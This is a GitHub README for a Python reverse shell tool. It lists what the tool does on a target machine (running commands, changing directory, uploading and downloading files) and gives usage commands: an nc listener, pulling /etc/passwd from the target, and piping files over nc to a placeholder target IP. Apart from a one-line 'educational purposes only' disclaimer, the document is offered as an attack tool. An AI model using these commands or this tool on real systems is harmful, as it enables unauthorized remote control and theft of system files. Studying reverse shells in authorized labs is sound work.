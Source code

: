 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Killsecstasy/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
nc -lvp YOUR_PORT
python3 reverse_shell.py
whoami
cd /etc
upload test.txt
cat test.txt | nc -w 3 YOUR_TARGET_IP YOUR_PORT
download /etc/passwd
nc -lvp YOUR_PORT > passwd
